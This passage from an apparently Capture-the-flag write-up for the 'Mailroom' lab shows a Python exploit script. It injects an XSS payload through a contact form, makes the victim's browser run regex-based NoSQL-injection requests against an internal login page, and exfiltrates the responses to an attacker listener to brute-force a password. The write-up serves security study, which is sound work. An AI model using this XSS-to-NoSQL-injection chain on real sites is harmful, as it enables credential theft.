 ```python
        exfilreq.send(mail1req.response);    
      }}    
    }};    
    mail1req.open('POST', 'http://staff-review-panel.mailroom.htb/auth.php', false);
    mail1req.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
    # var params = "email[$regex]=^{payload}&password[$ne]=fakepass"; 
    var params = "email=tristan@mailroom.htb&password[$regex]=^{payload}"; 
    mail1req.send(params);
    </script>
    """
    data = {
    "email": "pwn@hack.com",
    "title": "Pwn",
    "message": xss_payload
    }
    requests.post(url, headers=headers, data=data)

# start the server in a separate thread
event = threading.Event()
server_thread = threading.Thread(target=start_server)
server_thread.start()

# send requests and wait for server to print the body before proceeding with the next request
special_chars = ['\\', '.', '^', '$', '*', '+', '?', '{', '}', '[', ']', '(', ')', '|', '&', '!', '.', '#', '/', '^']
i = 33
while i < 126:
    char = chr(i)
    if char in special_chars:
        char = '\\\\' + char
    print(f"Trying: {final_payload}" + chr(i))
    send_request(final_payload + char)
    if event.wait(timeout=60):
        event.clear()  # reset the event for the next iteration
        
        if result:
            print(f"Found: {chr(i)}")
            final_payload += chr(i)
            i = 32
            result = False
    else:
        print("Timeout waiting for server response")
        pass

    if i < 126:
        i += 1
```

Running it, we successfully were able to get the password and email, although it did break in-between a lot due to free tier network and the script was modified altogether in accordance to the pattern found:
